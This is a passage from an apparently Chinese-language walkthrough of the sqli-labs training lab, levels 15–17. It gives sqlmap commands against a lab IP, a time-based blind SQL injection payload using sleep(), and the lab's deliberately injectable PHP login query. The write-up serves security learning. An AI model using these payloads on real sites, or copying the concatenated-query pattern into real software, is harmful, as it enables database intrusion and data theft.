 sqlmap

```
sqlmap -u 'http://192.168.27.14/Less-15/' --data "uname=1&passwd=1&submit=Submit" -p 'uname' -dbms=mysql --random-agent --flush-session --technique=T
```

```
sqlmap -u 'http://192.168.27.14/Less-15/' --forms -p 'uname' -dbms=mysql --random-agent --flush-session --technique=T
```

## less-16 时间盲注

时间盲注

```php
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row)
        {
                echo "<br>";
                echo '<font color= "#FFFF00" font size = 4>';
                echo "<br>";
        }
        else  
        {
                echo '<font color= "#0000ff" font size="3">';
                echo "</br>";
                echo "</br>";
        }
```

`"`闭合

```
1"+and+(select+1+from+(select(sleep(2)))aa)+and+"1"="1
```

## less-17 update 报错注入

```php
function check_input($value)
        {
        if(!empty($value))
                {
                // truncation (see comments)
                $value = substr($value,0,15);
                }

                // Stripslashes if magic quotes enabled
                if (get_magic_quotes_gpc())
                        {
                        $value = stripslashes($value);
                        }

                // Quote if not a number
                if (!ctype_digit($value))
                        {
                        $value = "'" . mysql_real_escape_string($value) . "'";
                        }

        else
```